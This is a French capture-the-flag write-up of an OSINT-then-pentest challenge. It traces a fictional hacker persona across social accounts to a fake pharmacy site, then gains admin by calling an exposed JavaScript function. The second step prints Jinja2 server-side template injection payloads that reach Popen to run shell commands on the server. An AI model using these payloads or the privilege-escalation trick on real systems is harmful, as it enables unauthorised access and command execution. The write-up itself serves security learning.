






# RedTeam
#### _OSINT + Pentest_

### Étape n°1

**Énoncé** : _I setup a website to challenge your skill as a pentester
Find me over the Internet as I stand by the nickname Zer0DayH4ckz0r
If you reach my website you should be able to gain control of a server
You will then need to go deeper and find a pivot
Finally if your are good enough you will send me my own password as a NTLM hash
Good luck!_

Notre objectif est donc de trouver le site de ce fameux Zer0DayH4ckz0r, on tape alors ce pseudo sur Google. On tombe sur le [compte Twitter](https://twitter.com/Zer0DayH4ckz0r) du "hacker". En descandant tout en bas de la liste de ses tweets, on tombe sur ce message : 



On a donc le [compte Github](https://github.com/Zer0DayH4ckz0r) du hacker. On regarde ses dépôts et on remarque qu'ils viennent tous de dépôts externes. En regardant les commits du hacker sur ses dépôts, on tombe sur quelque chose de très intéressant :



On s'empresse d'essayer ces identifiants sur Instagram mais ça ne fonctionne pas, on tape alors le pseudo du hacker sur Instagram et on tombe sur son [compte](https://www.instagram.com/zer0dayjld/) : 


On regarde toutes ses photos et leur description mais il n'y a rien d'intéressant aux premiers abords. En regardant de plus près, on remarque une photo sur laquelle on peut voir des écrans :


On tape le nom "PharmaHealthyCat" sur Google et on tombe sur un [compte Linkedin](https://www.linkedin.com/company/pharmahealthycat/about/). En lisant sa description, on comprend vite que c'est un faux compte, ce qui montre que l'on est sur la bonne piste. On se rend sur le site web de cette "pharmacie". En allant dans la catégorie "Blog", on tombe sur le post suivant : 
```Flag```
```Good Job the flag is RUNXe04xY2tONG1lXzFzX0cwT2RfSWZfWTB1X0Qwbid0X1RocjB3fQ==```

**FLAG** : ECW{N1ckN4me_1s_G0Od_If_Y0u_D0n't_Thr0w}

### Étape n°2

**Énoncé** : _You found the website, this is a good start,
Now you need to get in!_



En regardant le code source de toutes les pages du site, on tombe sur un fichier javascript très intéressant, et notamment ce bout de code :
```js
function submit3(id_user) { // eslint-disable-line no-unused-vars
  $.ajax({
    type: 'POST',
    url: '/home/users',
    dataType: 'json',
    data: {"id_user":id_user},
    success: function(result) {
      if (result == 'duplicate') {
        const message = 'You are not admin man !';
        alertify.notify(message, 'error', 5);
      } else {
        alertify.notify('User privileges successfuly changed', 'success', 5);
        window.location.reload(true);
      }
    },
    error: function(result) {
      const message = 'You are not admin man !';
      alertify.notify(message, 'error', 5);
    },
  });
}
```
Cette fonction est particulièrement intéressante car elle permet de modifier les privilèges d'un utilisateur. On trouve aussi, grâce à l'outil [dirb](https://www.kali.org/tools/dirb/) le path ```/home/users```, qui permet de récupérer la liste des utilisateurs. En regardant dans le code source, on trouve notre identifiant : 

Il ne nous reste plus qu'à utilisater la console de notre navigateur et d'appeler la fonction submit3 avec notre identifiant pour devenir administrateur.

Une fois administrateur, une nouvelle partie du site nous est proposée : 

Après avoir regarder les sections "Add Blog Post" et "Modify Users" qui ne donnent rien, on s'intéresse à "Template Builder". On identifie une SSTI (Server Side Template Injection) en tapant {{7*7}} qui s'exécute sur le template créé. On identifie la technologie utilisée grâce à cette image : 

Il s'agit de Jinja2. On injecte alors du code permettant de récupérer des informations puis de lire le flag.
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("ls",stdout = -1, shell=True).communicate() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("cat flag.txt",stdout = -1, shell=True).communicate() }}
```
La première ligne sert à connaître l'index de la classe ```Popen``` dans la liste des classes de Python. La deuxième nous permet de lancer la commande ```ls``` sur la machine cible et la troisième nous permet de lire le flag.

**FLAG** : ECW{EaSy_P4rt_D0ne_C0ngratz}

**Il y avait pour ce challenge deux autres parties que je n'ai pas pu finir avant la fin de l'épreuve.**


